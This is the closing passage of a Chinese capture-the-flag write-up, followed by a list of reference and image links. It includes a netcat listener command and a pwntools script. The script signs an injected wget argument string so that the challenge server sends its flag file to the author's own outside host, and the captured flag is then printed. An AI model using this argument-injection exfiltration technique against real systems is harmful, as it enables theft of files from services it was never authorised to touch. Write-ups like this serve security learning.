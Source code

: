 第三方库`hmac`也需要上述如此重装

在自己服务器上打开一个监听端口

    nc -lvp xxxxx



```py
import hmac 
from hashlib import sha1 
from pwn import *

def hmacsha1(k,s):    
    hashed = hmac.new(k, s, sha1)   
    return hashed.hexdigest()
    
def send_p(s,k):    
    message = {"message":s,"check":hmacsha1(k,s)}
    return str(message)   

p = remote('212.64.66.177',8080) 
# p = remote('127.0.0.1',8080) 
k = int(p.recvline()[:-1])
payload = "66.42.44.232:23333 --bodyfile=/data/data/com.xuanxuan.getflag/files/flag --method=HTTPMethod" 
p.sendline(send_p(payload,str(k)))

p.interactive()
```

然后在服务器上监听相应端口，得到`XCTF{this_wget_is_from_termux_and_I_move_some_dynamic_lib_to_systemlib_to_run_it}`


  [1]: https://xz.aliyun.com/t/6067
  [2]: http://static.zybuluo.com/leafish/jpp8avpsr27dzae7r1d9x6gz/image_1e693d72u1enl1cneadj3h41tng9.png
  [3]: https://kirin-say.top/2020/03/10/Kernoob-kmalloc-without-SMAP/
  [4]: http://static.zybuluo.com/leafish/evsddfq2iq6gwhck86bsdr0w/image_1e6bda8am1d31h36ubj1ul83079.png
  [5]: http://static.zybuluo.com/leafish/55my5icnzf3lnwnm1bu6zlyb/image_1e6becjm0hvr1bct1odg13ugbv4m.png
  [6]: http://static.zybuluo.com/leafish/413oe16gqt1ggrad5ho0hufa/image_1e6bh0sc91jdg1vir1b0urmt11lu13.png
  [7]: http://static.zybuluo.com/leafish/vyz71tvzk27vi1xlkuhub29q/image_1e6arvrf11sodt53eamhob163vm.png
  [8]: http://static.zybuluo.com/leafish/ull0t1d5zkiolnqkyd6jvrkm/image_1e3cegctudb774e9tl15d1n0q9.png
  [9]: http://static.zybuluo.com/leafish/fiw8hzlguct6w4mk2xzb4jsj/image_1e3ef7h6d10v61al4159f8p46k3m.png
  [10]: http://static.zybuluo.com/leafish/dm87f6we8lbvz08xgsksoubf/image_1e3efov151ckqmngalh1loi19v713.png
  [11]: http://static.zybuluo.com/leafish/a6m91ioa9l9xd0jcuct6cu5h/image_1e3eeat3mq56rv9bqm1udtk599.png
  [12]: http://static.zybuluo.com/leafish/0d4ntjurjrxcbf5mi1okz5te/image_1e3mch0hn1e5o1fqo1g8egom34h9.png
  [13]: http://static.zybuluo.com/leafish/noeaxbpb7ladjp6end8c8d6n/image_1e3p36h6gntr11qi1sfv89qpc09.png
  [14]: http://static.zybuluo.com/leafish/0wh1s7ttqasjk60vvbvdh5ar/image_1e3p39t88h7a1gno1rvi1ggcccpm.png
  [15]: http://static.zybuluo.com/leafish/5u93lj5peuib5v66grw07awr/image_1e3n3ma421g1q1ojd1516ikv1cok9.png
  [16]: http://static.zybuluo.com/leafish/jg93j2ppjpkfqnyutnf5b9to/image_1e3n5fcbj1o5c1omaco918i266km.png
  [17]: http://static.zybuluo.com/leafish/ej95qlwlrxb0h06h8rkycavy/image_1e3n5kj5k4391ulu1v4k12o1hfb13.png
  [18]: http://static.zybuluo.com/leafish/sp7r36az52z5p9andxjf3v5l/image_1e3n6oo8v1us91vcd31n13r31u2j1g.png
  [19]: http://static.zybuluo.com/leafish/vn0zh475yn0thyihbub3v4cm/image_1e3n7co4su6t1j3sb7m1jfl1k0h1t.png
  [20]: http://static.zybuluo.com/leafish/x7jpyo5qpj84b13dbcem1dtd/image_1e3n9dk8m1e5h9fp16edt7l1c042a.png